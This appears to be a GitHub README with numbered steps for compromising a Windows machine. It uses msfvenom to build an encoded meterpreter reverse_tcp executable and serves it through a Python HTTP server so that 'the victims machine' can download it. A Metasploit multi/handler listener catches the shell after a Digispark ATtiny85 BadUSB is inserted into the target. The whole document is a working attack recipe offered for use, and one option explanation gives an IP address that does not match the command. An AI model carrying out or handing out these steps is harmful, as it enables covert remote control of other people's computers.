 # TERMINAL-1. 


STEP 1 -  sudo su 

STEP 2 -  cd

STEP 3 -  cd

STEP 4 -  msfconsole

STEP 5 -  msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.0.74 LPORT=4444 -i 10 -e x86/shikata_ga_nai -f exe -o payload.exe

______________________________________________________________________________________________________________________________________________________________________________________

Here's what each option in the command means:

|-a x86: set the architecture to x86

|–platform Windows: set the target platform to Windows

|-p windows/meterpreter/reverse_tcp: set the payload to a reverse TCP meterpreter

|LHOST=192.168.1.9: set the local host to 192.168.1.9

|LPORT=4444: set the local port to 4444

|-i 10: flag specifies the number of iterations for the encoder to use 	

|-e x86/shikata_ga_nai: encode the payload with the shikata_ga_nai encoder

|-f exe: output the payload as a Windows executable

|-o payload.exe: name the output file as payload.exe

______________________________________________________________________________________________________________________________________________________________________________________

payload will be generated. Open the file explorer in kali,

look for the payload then open a new terminal in that location where there is payload. 


# TERMINAL-2.



STEP 6 -  python3 -m http.server     (running a simple http server so that the payload can be downloaded on the victims machine.)



now go back to the TERMINAL-1.



STEP 7 -  use exploit/multi/handler      (command designed for creating reverse shell connections.)

STEP 8 -  set payload windows/meterpreter/reverse_tcp   

STEP 9 -  set LHOST 192.168.0.74       (set LHOST <Kali Linux IP> which was given in the payload as well)

STEP 10 -  set LPORT 4444               (set LPORT <port> the same port number that was given while creating the payload)

STEP 11 -  exploit        (to run the commands you can use either "exploit" or "run" command)



NOW YOU HAVE TO INSERT THE DIGISPARK ATTINY85 USB WITH THE REVERSE SHELL SCRIPT CREATED BY DEVILWHITE0 TO GET THE SUCESSFULLREVERSE SHELL. 



STEP 12 -  help       (to view the command that can be run after the sucessfull reverse shell of windows)












____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________


